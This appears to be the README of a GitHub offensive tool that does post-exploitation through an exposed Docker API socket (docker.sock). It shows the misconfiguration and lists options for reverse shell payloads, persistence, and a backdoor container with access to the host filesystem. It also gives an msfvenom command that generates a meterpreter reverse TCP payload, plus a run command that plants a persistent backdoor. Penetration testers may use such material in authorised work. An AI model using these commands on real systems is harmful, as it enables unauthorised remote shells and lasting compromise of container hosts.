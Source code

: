 <h1 align="center">API Docker Attack</h1>
<h4 align="center"><code>Post-exploitation using exposed Docker API (docker.sock)</code></h4>

<p align="center">
  <a href="https://github.com/Katrovisch/API-Docker-Attack">
    <img src="https://user-images.githubusercontent.com/52386190/86634989-ebd16100-bfa8-11ea-9b32-d91ee243b50a.png">
  </a>
</p>

Docker provides an API for interacting with the Docker daemon (called the [Docker Engine API](https://docs.docker.com/engine/api/)) located in `unix:///var/run/docker.sock`. Docker.sock is a Unix socket where the Docker daemon is listening. We can exploit this feature to call Docker API functions and inject privileged or malicious commands.

Example of configuration failure in docker environments:
```shell
docker run --interactive --tty --volume /var/run/docker.sock:/var/run/docker.sock <image>
```
- **Dependencies:**

```shell
pip3 install docker
apt/dnf -y install netcat
```

- **Help**

| Command | Description | 
|---|---|
| --list-containers | List all containers |
| --into | Connecting container |
| --remove | Remove container |
| --payload | Payload of reverse shell |
| --persistent | Maintain persistent connection |
| --backdoor | Backdoor for accessing the host filesystem |

- **Usage:**

> Create backdoor container as persistent reverse connection to access host filesystem

Create payload of reverse shell with [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
```shell
msfvenom -p python/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o payload.py
```
Run:
```shell
DockerAPI.py --backdoor --payload payload.py --persistent
```
